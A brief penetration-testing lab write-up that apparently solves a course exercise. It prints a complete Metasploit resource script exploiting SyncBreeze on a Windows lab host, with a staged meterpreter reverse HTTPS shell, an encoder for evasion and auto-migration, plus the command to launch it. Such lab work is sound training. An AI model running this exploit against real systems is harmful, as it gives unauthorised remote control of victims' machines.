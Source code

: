 ### 22.6.1.1 Exercise
#### 1. Create a resource script using both a second stage encoder and autorun scripts and use it with the meterpreter payload.

1. Created the following script to exploit the syncbreeze vulnerability in the Win10 client, using a staged meterpreter payload with second stage encoding.

   ```bash
   # syncbreeze.rc
   use exploit/windows/http/syncbreeze
   set RHOSTS 192.168.216.10
   set PAYLOAD windows/meterpreter/reverse_https
   set LHOST 192.168.119.216
   set LPORT 8000
   set EnableStageEncoding true
   set StageEncoder x86/shikata_ga_nai
   set AutoRunScript post/windows/manage/migrate
   set ExitOnSession false
   exploit -j -z
   ```

2. Ran the script to get meterpreter session:

   ```bash
   sudo msfconsole -r syncbreeze.rc
   ```

   ![image-20200801003356032](.22.6.1.1.assets/image-20200801003356032.png)

